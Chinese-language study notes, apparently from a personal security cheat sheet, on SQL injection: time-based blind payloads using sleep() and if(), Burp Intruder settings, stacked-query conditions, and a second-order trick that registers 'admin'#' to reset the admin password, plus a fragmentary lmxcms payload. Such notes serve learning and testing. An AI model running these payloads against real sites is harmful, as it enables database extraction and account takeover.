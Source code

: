 

## 4、时间盲注

既不会回显数据，也不会回显错误信息，也不提示真假

~~~shell
# 思路：通过页面的响应时长(开发者模式-->网络-->时间)
# 语句：
（1）sleep
  id=1 and sleep(5) -- -
	id=1' and if(length(database())>=8, sleep(5),1)
	id=1' and if(substr(database(),1,1)>=8, sleep(5),1)
（2）if()
#burp
1、设置变量
2、变量设置1-127
3、设置线程
4、显示response received
# 可以用burp转换格式（url-encode as you type ）
~~~



## 5、堆叠注入（mysql_muti...）

* 用；来表示语句的结束

条件：

1、用的是mysql_muti_query

2、使用PDO预编译并且没有过滤

## 6、二次注入 (白盒)

先存储在数据库里面再执行

~~~shell
# 语句
1、创建用户：admin'#
2、修改密码：正常输入，修改的是admin的密码
# 要看代码
1、注入
2、burp
3、在y找代码
	追踪函数-->追踪
# lmxcms：
1、查看代码：echo %sql(151)
2、数据包：name=1...setbook=111&time)values('1','2','3','4','5','6')#=111
3、更改值，使得回显
#
chat.openai.com/chat
admin.php?m=Login
~~~
